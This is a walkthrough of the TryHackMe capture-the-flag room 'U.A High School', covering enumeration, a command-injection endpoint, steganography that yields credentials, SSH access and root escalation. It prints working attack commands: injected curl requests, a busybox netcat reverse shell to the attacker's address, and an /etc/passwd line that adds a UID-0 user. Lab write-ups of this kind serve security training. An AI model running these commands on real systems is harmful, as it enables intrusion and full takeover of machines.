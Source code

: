 ```yaml
---
title: "U.A High School"
description: Writeup of the TryHackMe challenge U.A High School
date: 2024-10-28 00:00:00 +0000
categories: [Writeup, Red Team]
tags: [ctf, linux, web, thm, writeup, nmap, ssh, hexeditor, xxd, gobuster]
pin: true
math: true
mermaid: true
comments: true
media_subpath: /images/uahs
img_path: /images/uahs
image:
  path: oneforall.jpg
---
```


 This is a walkthrough of the TryHackMe room [U.A High School](https://tryhackme.com/room/uahighschool) by [DarkStar7471](https://tryhackme.com/p/DarkStar7471). This is a beginner level room and is a great way to practice web enumeration and basic linux privilege escalation.

<!-- markdownlint-capture -->
<!-- markdownlint-disable -->
> Objectives: Find the user and root flags
{: .prompt-info }
> Useful Tools: `NMAP`, `Gobuster`, `SSH`, `Hexeditor`
{: .prompt-tip }
<!-- markdownlint-restore -->

## Enumeration/Reconnaissance

### Scanning
Like any challenge, it is important to first do some enumeration to understand what services are running on the target machine. There are many ways to do this, such as port scanning with `NMAP`, or fuzzing directories to find hidden locations. In this case, I will be using a custom `Python` script to automate this process while we manually examine the target. I created this tool, and will be releasing it soon on my [GitHub](https://github.com/Z3R0-sec). This script just runs `NMAP` and `Gobuster` in the background and displays the results in a simple format. Below are the results of the scan:

![Screenshot](Screenshot_2.png){: width="972" height="589" .w-50 .normal}
![Screenshot](Screenshot_4.png){: width="972" height="589" .w-50 .normal} 

### Checking out the Website
We only see two ports open, `22` and `80`. There is also an `/assets`{: .filepath} directory that we will visit later. For now, let's walk the website and see what we can find.

![Screenshot](Screenshot_1.png){: width="972" height="589" .w-50 .normal}![Screenshot](Screenshot_3.png){: width="972" height="589" .w-50 .normal} 

We are greeted with a basic website and limited functionality. Most of the links don't work, but there is a contact page with a form we can will out. I initially thought it might be weak to some form of command injection, but after running a few tests, there was nothing to be found. I then decided to run another `Gobuster` on the website to see if there were any hidden directories or files in the `/assets`{: .filepath} directory.

### Gobuster ... Again
I ran `Gobuster` on the `/assets`{: .filepath} directory using the following command:
  
  ```shell
  gobuster dir -u http://<Target_IP>/assets -w /usr/share/wordlists/dirb/big.txt -t 150 -x php,txt,html
  ``` 

![Screenshot](Screenshot_6.png){: width="972" height="589" }

## Dirsearch and Finding a Vulnerability
This returned a few files, but the one that caught my eye was `index.php`, which had a status code of 200. This is why it is important to indicate file types using the `-x` flag. From this point, I wasn't able to find anything of use, so I decided to use another tool, `dirsearch`, to see if I could find anything else. `Dirsearch` is a great tool for finding 
potentially hidden directories and files on a website, using its extensive wordlist. Let's use this on the `index.php` file we found earlier:

  ```shell
  dirsearch -u http://<Target_IP>/assets/index.php 
  ```
![Screenshot](Screenshot_7.png){: width="972" height="589" }

There is a strange result: `/assets/index.php/p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=dir`{: .filepath}. This looks like potentially a command injection vulnerability. Let's try to exploit this. We can do this either in the terminal using `curl` or `wget`, or we can use a browser. As shown below, I used curl, but the results returned are encoded using `base64`. We can decode this using `base64 -d`{: .filepath}. Running the folllowing commands will verify that we have command injection:

  ```shell
  curl http://<Target_IP>/assets/index.php/p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=dir | base64 -d
  ```
   ```shell
  curl http://<Target_IP>/assets/index.php/p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=pwd | base64 -d
  ```
![Screenshot](Screenshot_25.png){: width="972" height="589" }
![Screenshot](Screenshot_10.png){: width="972" height="589" }

We can see a directory listing and changing the end of the string to `pwd`{: .filepath} successfully runs, which indicates that we have command injection.

## Exploiting Command Injection and Gaining a Shell
Knowing that we have command injection, we can now try to get a reverse shell. After checking if `busybox` is installed, I set up a `netcat` listener on my machine and navigated to this URL:

  ```shell
  curl http://<Target_IP>/assets/index.php/p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=busybox%20nc%20<Your_IP>%20<Your_Port>%20-e%20/bin/sh
  ```
![Screenshot](Screenshot_11.png){: width="972" height="589" }

## Initial Access
We now have our shell, lets upgrade the shell and investigate the system further.
![Screenshot](Screenshot_12.png){: width="972" height="589" }

### Following the Crumbs
We find a directory called `Hidden_Content`{: .filepath} with a file inside called `passphrase.txt`{: .filepath}. This contained another encoded string, which we can decode using `base64 -d`{: .filepath}. This revealed a password, which we will need later.

![Screenshot](Screenshot_13.png){: width="972" height="589" }

I should mention there was an unused image titled `oneforall.jpg`{: .filepath} in the `/assets`{: .filepath} directory. Using `xxd` to examine the image file, we can see that it is actually a PNG file. We can alter the [magic numbers](https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5)[^1] to convert it back to a PNG file and view the image, or if needed, extract any files or text that were hidden using Stegnography. This is a common technique used to hide files in plain sight.

![Screenshot](Screenshot_14.png){: width="972" height="589" }

After changing the filetype, we can then use `steghide` to extract any hidden files. We were able to make use of the passphrase we found earlier to extract the hidden file. Viewing the `creds.txt`{: .filepath} file, we find a username and password.

![Screenshot](Screenshot_16.png){: width="972" height="589" }

### SSH Access and User Flag
With the credentials we found, we can now SSH into the machine and grab the user flag:

  ```shell
  ssh <username>@<Target_IP>
  ```

![Screenshot](Screenshot_18.png){: width="972" height="589" }

## Privilege Escalation
After logging in, we can see that we are in a restricted shell. We can check the permissions of the user by running `sudo -l`{: .filepath}. This will show us what commands we can run as sudo. There is a script called `feedback.sh`{: .filepath} that can possibly be altered to give us a root shell.

![Screenshot](Screenshot_20.png){: width="972" height="589" }

Let's check the contents of the script:

![Screenshot](Screenshot_21.png){: width="972" height="589" }

The script takes user input and is able to write to files. I tested this by running the script and writing to a file in the `/tmp`{: .filepath} directory. We can use this to create and add a new user with the SUID bit set, which will allow us to run commands as root when we log in as that new user. Back on my host machine, I created a password hash for the new user in the proper format using the following command:

  ```shell
  mkpasswd -m md5crypt -s
 <password>
  ```
![Screenshot](Screenshot_22.png){: width="972" height="589" }

### Root Flag
We can then prepend the username we want to use, run the script back in the SSH session, and add the following line to the prompt to add the new user to the system:

  ```shell
  newuser:passwordhash:0:0:root:/root:/bin/bash > /etc/passwd
  ```
![Screenshot](Screenshot_23.png){: width="972" height="589" }

We can then log in as the new user and grab the root flag:

![Screenshot](Screenshot_24.png){: width="972" height="589" }

# Conclusion
This was a fun room that required a bit of enumeration and some basic exploitation techniques. We were able to find a command injection vulnerability, exploit it to gain a shell, and then escalate our privileges to root. This room is great for beginners and is a good way to practice web enumeration and basic privilege escalation techniques. 

### Useful Resources

[^1]: Source: [Magic Numbers](https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5)